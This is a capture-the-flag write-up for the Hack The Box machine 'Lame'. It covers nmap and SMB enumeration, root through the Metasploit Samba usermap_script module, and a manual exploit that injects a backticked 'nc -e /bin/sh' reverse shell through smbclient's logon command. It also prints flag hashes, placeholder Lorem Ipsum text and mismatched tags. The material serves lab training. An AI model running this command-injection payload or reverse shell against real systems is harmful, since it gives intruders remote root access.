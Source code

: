 ```yaml
---
layout: single
title: Lame - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-04-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-lame/lame_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-lame/lame_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/thm# nmap -Pn -sC -sV -n 10.10.10.3
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 10:09 CEST
    Nmap scan report for 10.10.10.3
    Host is up (0.035s latency).
    Not shown: 996 filtered ports
    PORT    STATE SERVICE     VERSION
    21/tcp  open  ftp         vsftpd 2.3.4
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst:
    |   STAT:
    | FTP server status:
    |      Connected to 10.10.14.4
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      vsFTPd 2.3.4 - secure, fast, stable
    |_End of status
    22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    | ssh-hostkey:
    |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
    |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: -3d00h51m31s, deviation: 2h49m45s, median: -3d02h51m34s
    | smb-os-discovery:
    |   OS: Unix (Samba 3.0.20-Debian)
    |   Computer name: lame
    |   NetBIOS computer name:
    |   Domain name: hackthebox.gr
    |   FQDN: lame.hackthebox.gr
    |_  System time: 2020-07-27T01:17:55-04:00
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)


2. Login in to the ftp with anonymous:anonymous we find nothing of use. Enumerate the SMB shares using smbmap and smbclient.

    root@nidus:/git/htb/lame# smbmap -H 10.10.10.3
    [+] IP: 10.10.10.3:445	Name: 10.10.10.3
            Disk                                                  	Permissions	Comment
    	----                                                  	-----------	-------
    	print$                                            	NO ACCESS	Printer Drivers
    	tmp                                               	READ, WRITE	oh noes!
    	opt                                               	NO ACCESS
    	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
    	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))

  The share tmp seems interesting, both read and write permissions - lets enumerate more there.

NOTE: If you're experiencing this error when trying to list with smbclient: "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED"
      Then go ahead and add the following two lines to /etc/samba/smb.conf under [global]:
        client min protocol = NT1
        client max protocol = SMB3

    root@nidus:/git/htb/lame# smbclient \\\\10.10.10.3\\tmp
      smb: \> ls
      .                                   D        0  Mon Jul 27 07:50:50 2020
      ..                                 DR        0  Sun May 20 20:36:12 2012
      5145.jsvc_up                        R        0  Mon Jul 27 07:17:46 2020
      .ICE-unix                          DH        0  Mon Jul 27 07:16:41 2020
      .X11-unix                          DH        0  Mon Jul 27 07:17:08 2020
      .X0-lock                           HR       11  Mon Jul 27 07:17:08 2020

  There's nothing of direct use for us in here either. Instead we change the approach and look for known samba vulnerabilities.


3. Using searchsploit we look for any direct vulnerabilities of Samba version 3.0.20.

    root@nidus:/git/htb/lame# searchsploit samba 3.0.20
      ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
       Exploit Title                                                                                                              |  Path
      ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
      ..
      Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                            | unix/remote/16320.rb
      ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------

  Direct we find a msf module available. Turns out this module gives us instant root. Grab root.txt and user.txt

    msf5 auxiliary(scanner/ssh/ssh_enumusers) > use exploit/multi/samba/usermap_script
    msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.4
    msf5 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
    msf5 exploit(multi/samba/usermap_script) > run

      [*] Started reverse TCP handler on 10.10.14.4:4444
      [*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:46617) at 2020-07-30 10:53:52 +0200

      whoami
        root
      pwd
        /
      cat /root/root.txt
        92caac3be140ef409e45721348a4e9df
      ls -al /home
        total 24
        drwxr-xr-x  6 root    root    4096 Mar 14  2017 .
        drwxr-xr-x 21 root    root    4096 May 20  2012 ..
        drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
        drwxr-xr-x  2 makis   makis   4096 Mar 14  2017 makis
        drwxr-xr-x  2 service service 4096 Apr 16  2010 service
        drwxr-xr-x  3    1001    1001 4096 May  7  2010 user
      cat /home/makis/user.txt
        69454a937d94f5f0225ea00acd2e84c5


4. OPTIONAL MANUAL EXPLOIT (NO MSF)

Logging in as anonymous user on the smb-service we find that 'logon' option is available.
We can exploit this directly to get a reverse shell.

  (a) Verify options with '?' or 'help'
    smbclient \\\\10.10.10.3\\tmp\\
    smb: \> ?
      [..]
      wdel           logon          listconnect    showconnect    tcon

  (b) Setup a reverse shell to your box
    smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.10 4488`"
      Password:
      session setup failed: NT_STATUS_IO_TIMEOUT

  (c) Grab the incomming session
    [root:/git/htb/lame]# nc -lvnp 4488                                                                                               (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 58543
      whoami
      root
      python -c 'import pty;pty.spawn("/bin/bash")';
      root@lame:/root# cat root.txt
        cat root.txt
        744e9fa96f4e8423020ccb841c60e4d2

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
